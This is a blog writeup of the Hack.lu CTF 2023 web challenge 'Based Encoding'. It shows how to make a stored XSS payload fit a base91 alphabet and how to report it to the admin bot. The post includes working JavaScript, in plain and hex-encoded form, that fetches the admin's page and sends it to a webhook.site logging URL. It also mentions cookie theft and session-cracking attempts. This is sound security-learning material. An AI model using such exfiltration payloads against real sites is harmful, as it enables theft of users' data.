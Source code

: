 ```yaml
---
layout: post
title: "Hack.lu CTF based encoding web challenge writeup"
date: 2023-10-19 07:30:00 +0100
categories: ctf web security writeup htmx
permalink: /posts/ctf-hack-lu-web-based-encoding
---
```


## Based Encoding

CTF name: **[Hack.lu CTF 2023](https://flu.xxx/info)**

Challenge name: **Based Encoding**

Challenge description:

```text
Based encoding as a service. But can we insert a little tomfoolery? Let's find out.
```

Challenge category: **web**

Challenge points: **82**

When: **Fri, Oct. 13, 18:00 — Sun, Oct. 15, 18:00 UTC**

### TLDR - solution

report a `base91` encoded _note_ to admin (**XSS** with limited character set)

```python
# btoa("https://webhook.site/your-server?data=") ==> aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=

script="<script>fetch(\"/\")[\"then\"]((data) => data[\"text\"]())[\"then\"]((html)=>location=atob(\"aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=\")+btoa(html))</script><p>some tag</p>"
result = based91.decode(script)
print(result.hex())

# f0afecd5baf39dac4294fc6dd286f809445ffb0db053e0adb4964677a7ca80e53c0b26c6157004c3e127107ded37c04e814160531bdd758d4365402d67b83360700a022f45a3cc14aa343a2acff513e49aa6e1436fa0ee472443f8433165989534423bd308ede71d1128b3cde436c4dfa9ccad5f10d8d4e0f08f0651410c054aedf14de6a0d55a22d9dcce
```

### Description

![description](/assets/images/2023-10-19/image-1.png)

Challenge was marked as **beginner friendly**. You're greet with a login page. After signing up you get an access to list, create and report (to admin) _encodings_

| ![login page](/assets/images/2023-10-19/image.png) | ![create encoding](/assets/images/2023-10-19/t1.png) | ![view encoding](/assets/images/2023-10-19/t2.png) | ![list all encodings](/assets/images/2023-10-19/t3.png) |
| -------------------------------------------------- | ---------------------------------------------------- | -------------------------------------------------- | ------------------------------------------------------- |

After checking the source code and `view_encoding.html` file we can see that it's vulnerable to XSS

![Alt text](/assets/images/2023-10-19/image-5.png)

Inside the `app.py` file you find a flag. It's in a database, but only admin knows the id. So the idea is to prepare an encoding with some XSS, report it to the admin, and steal the id and get the flag 😉

![Alt text](/assets/images/2023-10-19/image-7.png)

Our `XSS` script will be encoded using `base91` which means we're limited to the `base91_alphabet`. Other characters will be lost during encoding process

![Alt text](/assets/images/2023-10-19/image-6.png)

Let's analyze the most important file of this challenge. Inside the `app.py` there's the `/create` function where we find the encoding logic

```python
encoded = based91.encode(text.encode() if not (re.match(r"^[a-f0-9]+$", text) and len(text) % 2 == 0) else bytes.fromhex(text))
```

First observation is that you can send encodings as a `.hex()`. Second is that encoding a decoded value will give you the same value (but again, we're limited to the `base91_alphabet`)

```python
result = based91.encode(based91.decode('YOUR_EVIL_SCRIPT_but_._and_ _spaces_ _are_missing'))
print (result)

# YOUR_EVIL_SCRIPT_but__and__spaces__are_missisB
```

Now it's time to prepare a JS script which will steal the admin decodings. Remember we can't use spaces and `.` so we need to access the object using `[]`. Let's fetch `/`, then redirect a user to our server with the page data as a query parameter. We used [webhook.site](https://webhook.site) as a temporary log server

```javascript
// btoa("https://webhook.site/your-server?data=") ==> aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=

fetch("/")
  ["then"]((data) => data["text"]())
  ["then"](
    (html) =>
      (location =
        atob("aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=") +
        btoa(html))
  );
```

Now it's time to decode and parse it to hex. Have you noticed these trash characters from before? We've got `missisB` instead of `missing`. It may break our closing `</script>` tag. We'll get rid of this issue by simply adding some random tag at the end of the script

```python
import based91
script="<script>fetch(\"/\")[\"then\"]((data) => data[\"text\"]())[\"then\"]((html)=>location=atob(\"aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=\")+btoa(html))</><p>some tag</p>"
result = based91.decode(script)
print(result.hex())

# f0afecd5baf39dac4294fc6dd286f809445ffb0db053e0adb4964677a7ca80e53c0b26c6157004c3e127107ded37c04e814160531bdd758d4365402d67b83360700a022f45a3cc14aa343a2acff513e49aa6e1436fa0ee472443f8433165989534423bd308ede71d1128b3cde436c4dfa9ccad5f10d8d4e0f08f0651410c054aedf14de6a0d55a22d9dcce
```

Now it's time to create an encoding. We can see the redirect is working (we're redirected after creating this decoding). Let's grab an id, report it to admin and check our log server

![Alt text](/assets/images/2023-10-19/image-8.png)

And we've got something! Let's decode the data

![Alt text](/assets/images/2023-10-19/image-9.png)

And here's the id! Let's go back to the challenge page, open random decoding and replace the id url parameter

![Alt text](/assets/images/2023-10-19/image-10.png)

so the `flag` is

```text
flag{bas3d_enc0dings_str1p_off_ur_sk1n}
```

### wrong path 1

Trying to steal an admin cookie which was protected by `httpOnly` flag and not accessible via `document.cookie` from the FE

![http only cookie flag](/assets/images/2023-10-19/image-2.png)

### wrong path 2

Trying with different versions of `eval` with the `no-eval` policy in place

![content security policy](/assets/images/2023-10-19/image-3.png)

### wrong path 3

Decoding `session` using [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) and [flask-unsign-wordlist](https://github.com/Paradoxis/Flask-Unsign-Wordlist). Secret is long, random so nearly impossible to crack

![flask-unsign-result](/assets/images/2023-10-19/image-4.png)

{% include posts_footer.html %}
